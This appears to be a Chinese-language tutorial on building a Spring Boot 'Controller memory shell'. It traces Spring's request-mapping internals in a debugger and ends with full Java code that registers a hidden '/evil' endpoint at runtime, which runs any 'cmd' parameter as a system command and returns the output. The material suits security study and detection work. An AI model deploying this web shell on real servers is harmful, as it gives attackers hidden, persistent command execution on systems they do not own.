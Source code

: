 # Spring Controller内存马

## 搭建Spring Boot项目

通过start.aliyun.com创建Spring Boot项目，版本选择2.4.2，必须添加Spring Web组件才能处理Web请求。

![image](assets/image-20250709013755-xv7eov7.png)

之后点击下方的获取代码，下载到本地后解压zip，并用IDEA开发工具打开，项目结构如下：

![image](assets/image-20250709013909-5yyjdjw.png)

## 编写Controller代码

![image](assets/image-20250709014122-eoy3lnq.png)

```java
@RestController
public class MyController {
    @RequestMapping("/index")
    public String index() {
        return "index";
    }
}
```

运行DemoApplication，并在浏览器访问localhost:8080/index查看效果

![image](assets/image-20250709014311-64547sc.png)

## 调试程序

我们的目的是在程序运行时动态加入一个Controller，为了达到这个目的，我们就需要搞清楚Controller的注册过程。

在刚刚写的MyController中打个断点，并已调式模式重新运行DemoApplication

![image](assets/image-20250709014651-sqvsmyb.png)

请求流程：

1. 请求首先经过Tomcat的Filter链
2. 进入Spring的DispatcherServlet
3. 根据请求找到对应的处理方法

![image](assets/image-20250709015110-3hxq1kw.png)

## 请求映射处理器类分析

所以将请求映射到正确的Controller方法是在DispatcherServlet的doDispatch方法中实现的，于是我们重点分析这个方法。

![image](assets/image-20250709015825-u19o640.png)

我们发现根据请求映射到对应的Controller方法这个操作具体将请求传入getHandle()方法，getHandle()就会返回正确的Controller方法。所以我们继续进入getHandle()方法一探究竟。

![image](assets/image-20250709020235-01gb6td.png)

这段代码是什么意思呢，就是有一个handlerMappings列表，这个list中有多个xxxMapping

![image](assets/image-20250709020924-ggf6z0b.png)

如果这5个mapping中的mapping对象中任意一个的getHandler方法能返回处理当前请求的handler，则直接返回此handler。如果所有mapping的getHandler方法都不能返回处理此请求的对应handler，则返回null。

在return handler;这行打上断点，看看是哪个mapping找到了/index对应的Controller方法

![image](assets/image-20250709021311-tms8y3t.png)

发现了，这个Mapping对象是RequestMappingHandlerMapping类。

看看RequestMappingHandlerMapping.getHandler()方法体中写了什么。

发现RequestMappingHandlerMapping.getHandler()方法体来自RequestMappingHandlerMapping的父类AbstractHandlerMapping.getHandler实现。

![image](assets/image-20250709021435-r8xd3mw.png)

继续跟踪进AbstractHandlerMethodMapping.getHandlerInternal()查看实现

![image](assets/image-20250709021730-5unld07.png)

继续查看lookupHandlerMethod()的实现

![image](assets/image-20250709021920-u5jg45l.png)

关注方法第二行出现的mappingRegistry属性，在调式窗口中查看这个属性存储了什么，发现mappingRegister是一个map，存储了路径和RequestMappingInfo对象的映射关系。好了，接下来我们就需要搞清楚我们怎么自己在这个map中注册一个处理方法，并且映射到指定路径上。

在同一个类中注意到还存在AbstractHandlerMethodMapping.registerHandlerMethod()方法。那么我们只需要调用这个方法即可注册自己的Controller方法进去。

![image](assets/image-20250709022516-3ekgv22.png)

问题变成了在Spring程序运行中怎么拿到AbstractHandlerMethodMapping子类实例对象，比如RequestMappingHandlerMapping，因为刚刚调试的过程中看到RequestMappingHandlerMapping对象实例是存在的，并且获取到了/index对应的Controller方法的，还有就是父类有的方法RequestMappingHandlerMapping作为子类肯定也有。

注入代码如下：

```java
@RestController
public class MyController {
    @RequestMapping("/hello")
    public String hello()
    {
        return "hello world";
    }
    @RequestMapping("/inject/controller")
    public String injectController() throws NoSuchMethodException {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.getRequestAttributes().getAttribute(DispatcherServlet.WEB_APPLICATION_CONTEXT_ATTRIBUTE,0);
        RequestMappingHandlerMapping mapping = context.getBean(RequestMappingHandlerMapping.class);
        InjectController injectController = new InjectController();
        RequestMappingInfo info = new RequestMappingInfo(
                new PatternsRequestCondition("/evil"),
                new RequestMethodsRequestCondition(),
                null, null, null, null, null);

        mapping.registerMapping(info,injectController, injectController.getClass().getMethod("evil"));
        return "inject controller success";
    }
 	@RestController
    public class InjectController {
        public String evil() throws IOException {
            HttpServletRequest request = ((ServletRequestAttributes)RequestContextHolder.getRequestAttributes()).getRequest();
            String cmd = request.getParameter("cmd");
            Runtime r = Runtime.getRuntime();
            StringBuilder sb = new StringBuilder();
            try{
                Process proc = r.exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(proc.getInputStream()));
                String line = null;
                while ((line = reader.readLine()) != null){
                    sb.append(line).append("\n");
                }
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
            return sb.toString();
        }
    }
}
```

‍
